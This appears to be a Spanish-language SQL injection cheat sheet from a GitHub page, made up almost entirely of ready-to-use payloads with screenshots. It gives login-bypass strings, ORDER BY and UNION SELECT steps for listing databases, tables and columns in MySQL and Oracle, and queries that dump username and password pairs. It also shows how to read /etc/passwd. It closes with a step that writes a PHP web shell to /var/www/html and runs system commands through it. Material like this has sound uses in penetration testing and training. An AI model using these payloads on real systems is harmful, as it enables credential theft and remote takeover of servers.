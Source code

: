 ### Autenticación débil basada en SQL:
- Formulario de inicio de sesión (username - passwd) donde la inyección intenta **eludir la autenticación.**
```sql
SELECT * FROM users WHERE username='' AND passwd=''
1. username='admin' or 1=1-- - AND passwd='admin'
2. username='admin' or 1=1#
3. user='admin' -- || user='admin'-- -
```
<p align="center">
  <img src="https://i.postimg.cc/Fs1s7nJQ/sql-ejemplo-bool.png" alt="sql"/>
</p>

### Determina el número de columnas devueltas por la consulta
- Aprovechando el manejo de error en la respuesta para saber el total de columnas.
```sql
SELECT password,email FROM users WHERE username='pepe'' order by 2-- -
1. username order by 2-- -
2. username order by 3-- -//Devuelve error ya que al comienzo solo se seleccionan 2
```
<p align="center">
  <img src="https://i.postimg.cc/Z5MNWdqw/sql-ejemplo-error-ORDER-BY.png" alt="sql"/>
</p>

**Error ORDER BY**
<p align="center">
  <img src="https://i.postimg.cc/pL3FQXxF/ERROR-sql.png" alt="sql"/>
</p>

- Combinar del 1 hasta el total de columnas de la tabla con UNION SELECT
```sql
SELECT password,email FROM users WHERE username='pepe' union select 1,2-- -
SELECT password,email FROM users WHERE username='pepe' union select NULL,NULL-- -
//Este último va en la URL
```
+ Mostrar una posible inyección de código PHP
```sql
SELECT password,email FROM users WHERE id=1 UNION SELECT "<?php system('whoami'); ?>",user();-- -;
```
<p align="center">
  <img src="https://i.postimg.cc/Z5KPBmx5/sql-inyeccion-code-y-dbuser.png" alt="sql"/>
</p>

- Mas ejemplos con el uso de UNION SELECT '',''-- -
<p align="center">
  <img src="https://i.postimg.cc/6qxB0qpy/mas-ejemplos-con-UNION.png" alt="sql"/>
</p>

+ Utilizando una inyección de código hacia un directorio como **/etc/hosts** o **/etc/passwd**
<p align="center">
  <img src="https://i.postimg.cc/1X0nT1WV/load-file-sql.png" alt="sql"/>
</p>
---

+ **Recupera las bases de datos disponibles en el servidor - LISTAR DBS**
```sql
//Ejemplo por consola
SELECT username,password FROM users WHERE category=Accessories' UNION SELECT username,group_concat(schema_name) FROM information_schema.schemata-- -
```
```SQL
//Esto va en la URL
' UNION SELECT schema_name,NULL FROM information_schema.schemata-- -
```
- **Recupero "todas" las tablas creadas en cada base de datos. - LISTAR TABLAS**

```SQL
//Esto va en la URL
' UNION SELECT table_name,NULL FROM information_schema.tables-- -
```
-  LISTAR COLUMNA
<p align="center">
  <img src="https://i.postimg.cc/7ZT8y18D/tabla-y-dbs.png" alt="sql"/>
</p>

```sql
SELECT username,password FROM users WHERE category=Accessories' UNION SELECT NULL,column_name FROM information_schema.columns WHERE table_schema='public' AND table_name='users'-- -
```
information_schema.tables > Muestra todas las tablas

- Leer todos los nombres de usuario y contraseña de una tabla
```sql
SELECT username,password FROM users WHERE category=Accessories' UNION SELECT username,password FROM users-- -
```
<p align="center">
  <img src="https://i.postimg.cc/Fs1s7nJQ/sql-ejemplo-bool.png" alt="sql"/>
</p>

---

## Tipos de inyecciones y "paso a paso".

##### 1.er Paso:
### ' ORDER BY [num_columns]-- -

Determina `' ORDER BY [num]-- -` el número de columnas en la tabla de la base de datos.
<p align="center">
  <img src="https://i.postimg.cc/N0GGQs8R/sqli.png" alt="sqli"/>
</p>

+ Ejemplo.

```url
https://example.com/filter?category=gift' ORDER BY 1-- -
https://example.com/filter?category=gift' ORDER BY 2-- -
https://example.com/filter?category=gift' ORDER BY 3-- -
https://example.com/filter?category=gift' ORDER BY 4-- -
```
<p align="center">
  <img src="https://i.postimg.cc/W1tQcpBz/image.png" alt="sql"/>
</p>

**"Al obtener un error se sabe que el número anterior es el número de columnas."**

##### 2.do Paso:

### ' UNION SELECT [NULL x cant_columns]-- -
<p align="center">
  <img src="https://i.postimg.cc/76KsrqhX/imagen.png" alt="sql"/>
</p>

- Ejemplos
1. Descubrir los nombres de las DB.
```SQL
SELECT * FROM tabla UNION SELECT schema_name,2,3,4 FROM information_schema.schemata;-- -;
```
2. Descubrir las tablas creadas dentro de cada DB.
```SQL
SELECT * FROM tabla UNION SELECT table_name,2,3,4 FROM information_schema.tables;-- -;
```
3. Descubrir las tablas dentro de una DB específica.
```SQL
SELECT * FROM tabla UNION SELECT table_name,2,3,4 FROM information_schema.tables WHERE table_schema='name_DB';-- -;
```
4. Ver las columnas de una tabla.
```SQL
SELECT * FROM tabla UNION SELECT column_name, 2, 3, 4 FROM information_schema.columns WHERE table_name='users' AND table_schema='name_DB';-- -;
```
5. Ver los datos dentro de una DB
```SQL
SELECT username,password FROM users UNION SELECT username,password FROM login.users-- -
```
+ Concatenar
```SQL
SELECT username,password FROM users UNION SELECT NULL,username||':'||password FROM users-- -
```
### Oracle
```SQL
' UNION SELECT NULL,NULL from dual-- -
```
```SQL
' UNION SELECT NULL,banner from v$version-- -
```
- Todas las tablas existentes
```SQL
' UNION SELECT NULL,table_name FROM all_tables-- -
```
+ Usuario que posee un esquema de DB.
	+  Específico que es el propietario de todos los objetos dentro de ese esquema, como tablas, vistas, índices, procedimientos almacenados, etc.
```SQL
' UNION SELECT NULL,owner FROM all_tables-- -
```
```SQL
' UNION SELECT NULL,table_name FROM all_tables WHERE owner=''-- -
# En caso de especificar uno en concreto.
```
+ Muestra todas las columnas de una tabla
```SQL
' UNION SELECT NULL,column_name FROM all_tab_columns WHERE table_name=''-- -
```
+ Ver los datos de cada columna
```SQL
' UNION SELECT NULL,username||':'||password FROM nombre_tabla-- -
```
---
### Ejecución remota SQLi
**1er paso:**
```sql
' union select "",'<?php system($_REQUEST[0]); ?>', "", "" into outfile '/var/www/html/shellsqli.php'-- -
```
**2do paso:**
```shell
http://SERVER_IP:PORT/shellsqli.php?0=id
```

| Comandos |
| :------: |
|    ls    |
|   cat    |
|   pwd    |
|    id    |
|  whoami  |
|  ls ..   |
| ls /file |
| ls /dir  |
